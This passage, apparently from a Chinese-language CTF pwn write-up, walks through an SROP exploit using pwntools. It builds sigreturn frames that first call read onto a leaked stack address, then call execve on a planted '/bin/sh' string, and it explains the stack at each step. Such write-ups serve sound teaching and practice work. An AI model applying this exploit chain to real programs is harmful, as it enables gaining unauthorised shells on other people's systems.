     成功得到栈地址
    
-   使用 pwntools 的 SigreturnFrame 构造 read(0,stack\_addr,0x400)
    
    ```bash
    #构造 frame，表示 read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    ```
    
    因为程序是重新在 main\_addr 开始执行，发送 payload 后使用 read 函数将 payload 写入栈中，此时的栈情况如图<5>
    
    此时的 esp 指向的是我们写入的 main\_addr,ret 后程序继续返回到 main\_addr，而 esp 指向的是下一个地址，程序继续调用 read 函数，我们发送 payload 写入栈中
    
    ```bash
    #通过控制输入的字符数量，调用 sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    
    此时的栈情况如图<6>：
    
    esp 指向我们写入的 syscall\_addr 地址，由于我们成功写入了 15 个字符，故此时的 eax 为 15，程序 ret 返回到 syscall\_addr 处进行系统调用，此时的系统调用号存储在 eax 正好是 15，调用 sigreturn，根据 frame 设定的结构，程序接下来会执行 read(0,stack\_addr,0x400)
    
-   使用 pwntools 的 SigreturnFrame 构造 shell
    
    此时函数执行的是 read(0,stack\_addr,0x400)，需要等待我们的输入，我们继续构造 frame(execve)
    
    ```bash
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh 字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    ```
    
    将 payload 写入到栈中，此时的栈情况如图<7>
    
    此时 esp 指向的是我们写入的 main\_addr，执行 ret，返回至 main\_addr，而 esp 指向下一个地址，即 p64(0) 处，继续调用 read，等待我们输入 payload
    
    ```bash
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    